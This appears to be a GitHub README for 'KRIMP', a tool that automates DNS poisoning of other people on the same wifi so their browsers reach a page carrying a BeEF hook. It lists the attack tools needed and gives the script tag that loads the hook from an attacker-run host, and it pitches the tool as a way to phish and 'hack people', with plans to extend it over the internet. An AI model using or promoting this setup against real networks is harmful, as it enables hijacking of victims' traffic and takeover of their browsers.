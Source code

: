 # KRIMP
`
   ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
  ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
  ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
 ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
  ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
  ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
  ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
  ▀           ███    ███                                   
  `
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered, this tool automates the process of DNS poisoning a target on your wifi to make them redirect to your page which is inected with beEf.
*This is in an alpha stage, more automation will come*

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:
`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

